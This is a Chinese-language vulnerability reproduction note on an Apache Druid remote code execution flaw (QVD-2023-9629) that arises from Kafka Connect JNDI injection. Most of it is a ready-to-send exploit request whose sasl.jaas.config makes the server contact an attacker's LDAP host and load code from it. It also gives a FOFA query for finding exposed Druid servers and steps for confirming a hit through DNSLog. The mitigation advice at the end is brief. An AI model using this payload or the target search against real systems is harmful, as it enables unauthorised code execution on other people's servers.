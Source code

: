 # Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## FOFA

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

![image-20230801093324881](images/image-20230801093324881.png)

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html

